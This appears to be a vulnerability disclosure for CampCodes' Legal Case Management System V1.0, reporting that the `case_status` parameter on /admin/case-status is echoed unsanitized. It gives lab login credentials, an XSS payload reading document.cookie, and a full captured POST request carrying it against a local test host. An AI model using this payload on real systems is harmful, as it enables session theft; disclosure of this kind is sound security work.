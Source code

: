 ## Legal Case Management System

## XSS on `/admin/case-status`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/case-status
```

The parameter `case_status` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/case-status HTTP/1.1
Host: 192.168.150.131
Content-Length: 319
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylcuJPx5GUc99OT6k
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/case-status
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IjRWaExxcFBSd0wyZ0ZoSXFzV2NrMlE9PSIsInZhbHVlIjoiRnpIdUNEalM4THlSZ2tFa0QyTHVIV2hBWUtrbHVxb2E3cGh4T01WTCt5RkU1VHZZTUkxS1BveVdKSHlIN3NlaSIsIm1hYyI6Ijk5MGE2M2Y3YzY2ZjhhYmE5NWQ1ZTk3MjcxMTdiMTU1NWYyYTZjNmQ5NzU4YmE0NDNkM2MxMDRmYWViOWRlOTYifQ%3D%3D; test_session=eyJpdiI6Im9mUWdNN0MxXC8xaGRsQnZLc2NZQzZRPT0iLCJ2YWx1ZSI6Ilplc1k4a0JvVTJiamsxS2ZTa1o3VGpVNjRxajN0YkxWdmMzSXp5SzdWUDJlRWpqRnJoSE1jTGNoMzE2OUpTV1wvIiwibWFjIjoiMGQ3N2EwMzQ4NjQ3NDEwMTM2NDVjOTJhZWM0ZGIyMmI2YWRiNjEwODI3ZDY0NDRlMzU4YTEzODI3ZjE2Mzg2OCJ9
Connection: close

------WebKitFormBoundarylcuJPx5GUc99OT6k
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundarylcuJPx5GUc99OT6k
Content-Disposition: form-data; name="case_status"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundarylcuJPx5GUc99OT6k--

```

### Screenshot

![image-20240509200349784](./screenshot/image-20240509200349784.png)
